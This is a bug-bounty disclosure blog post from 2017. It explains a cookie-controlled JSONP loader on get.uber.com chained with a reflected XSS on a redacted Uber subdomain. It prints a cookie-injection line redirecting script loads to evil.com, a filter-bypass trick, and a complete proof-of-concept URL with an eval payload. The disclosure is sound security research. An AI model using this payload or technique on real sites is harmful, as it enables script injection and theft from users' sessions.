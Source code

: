 title: "[BBP系列二] Uber XSS via Cookie"
date: 2017-08-30 19:36:20
tags: ["安全", "XSS", "BBP"]
---

This write up is about part of my latest XSS report to Uber@hackerone. Sorry for my poor English first of all, I will try my best to explain this XSS problem throughly.

## JSONP Request

Several months ago, when enjoying my Spring Festival Holiday at home, I decided to do something interesting, so I started hunting for a bug. I like searching in the chrome dev tools. This time my lucky word was `jsonp`, and my target domain was `https://get.uber.com`. Let's look at what I had found at that time.

```js
idrCall: function() {
    var a, b;
    return this.idrCallPending ? void 0 : (this.log("making idr call"),
    a = this.rfiServer ? this.rfiServer : "a.rfihub.com",
    b = this.getProtocol() + "//" + a + "/idr.js",
    this.jsonpGet(b, {}, this.idrCallback, "cmZpSWRJbkNhY2hl"),
    this.idrCallPending = !0)
},
```

![](https://ws1.sinaimg.cn/large/7184df6bgy1fj2030d1ocj21d00r0gsw.jpg)

Nothing suspicious? Not! When came cross these lines of code, I was thinking about whether the value of `this.rfiServer` could be controlled by me. If yes, we can force the browser to load arbitrary javascript file. To understand this, you should know [the essence of JSONP](https://stackoverflow.com/a/2067584). The next step was searching everything about `rfiServer`.

![](https://ws1.sinaimg.cn/large/7184df6bgy1fj20krdxhbj20tm0f042c.jpg)

After reading through these lines of code:

```js
a = this.readCookie("_rfiServer"),
null != a && this.setRfiServer(a),
```

We could get the information that the initial value of `this.rfiServer` was set by using value of cookie `_rfiServer` if exists. Now the problem became how we can set cookie of Uber sites? But how? Here was the options in my mind at that time:

* HTTP Header CRLF Injection at any subdomain of uber.com
* XSS at any subdomain of uber.com

What? We need to find a bug to trigger another bug. And why any subdomain of uber.com?

## The Feature of Cookie

Any subdomain of uber.com can set cookie with domain `.uber.com` to be used across subdomains. For instance, we can set cookie in `xxx.uber.com` using following code, then `get.uber.com` will use the cookie value.

```
document.cookie = '_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2018 01:43:57 GMT;path=/'
```

![](https://ws1.sinaimg.cn/large/7184df6bgy1fj21fxdw02j21dk16qqel.jpg)

## XSS of <redacted>.uber.com which is Out of Scope

I did really find out one reflected XSS in one of Uber's subdomain using search engine. Let's call the domain `<redacted>.uber.com` for demo.

![](https://ws1.sinaimg.cn/large/7184df6bgy1fj21w61lp8j21dw0fy79z.jpg)

1. `"` is reflected and not encoded. We can inject any attribution into `input` tag.
2. `type="text"` is after the injection point. So we can inject `type="image" src="1" onerror="alert(1)"`. Note that when there is two types, the second one will be ignored.
3. `>` is removed!!! This can be used to bypass Chrome XSS Auditor. How? `o>nerror`.

## Summary

1. Use reflected XSS of `<redacted>.uber.com` to set the value of `_rfiServer` cookie to `evil.com`
2. Visit `get.uber.com`, JSONP request to `https://evil.com/idr.js`, XSS of `get.uber.com` is done.
3. The final PoC

  ```js
  https://<redacted>.uber.com/<redacted>?
  email=aaa"%20type%3d"image"%20src%3d1%20o>nerror%3d"eval(decodeURIComponent(location.hash.substr(1)))
  #document.cookie='_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2999 01:43:57 GMT;path=/';location.href="https://get.uber.com";
  ```

4. Thanks for Uber. Reward: 5k
